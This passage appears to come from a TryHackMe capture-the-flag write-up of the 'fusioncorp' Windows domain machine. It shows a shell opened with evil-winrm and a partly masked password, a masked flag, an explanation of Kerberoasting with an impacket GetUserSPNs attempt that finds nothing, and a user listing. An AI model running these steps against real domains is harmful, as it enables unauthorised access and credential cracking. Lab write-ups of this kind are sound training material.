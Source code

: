 ## Getting a shell
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ evil-winrm -i fusion.corp -u lparker -p '!**********k6!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\lparker\Documents> 
```
## Getting first flag
```console
*Evil-WinRM* PS C:\Users\lparker\desktop> cat flag.txt
THM{c105b*********a8218f4ef}
```


# Privilege Escalation
## Checking if any kerberoastable users are present
- Those accounts which have their Service Principal Name(SPN) set are kerberoastable. Usually these accounts are service accounts.
- For kerberoastable account, we can request a TGS and some portion of data inside this TGS is encrypted with the NTLM hash of the service account which we can try and crack offline.
- To request for TGS, we must have a valid account on the domain. 

```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ /usr/share/doc/python3-impacket/examples/GetUserSPNs.py fusion.corp/lparker 
/home/reddevil/.local/lib/python2.7/site-packages/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography import x509
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
No entries found!
```
There are no entries.

## Listing Users on the box
```console
*Evil-WinRM* PS C:\Users\lparker\documents> net user 

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    jmurphy
krbtgt                   lparker
The command completed with one or more errors.
```
We can see apart from administrator and lparker(us), there is another account on the box.
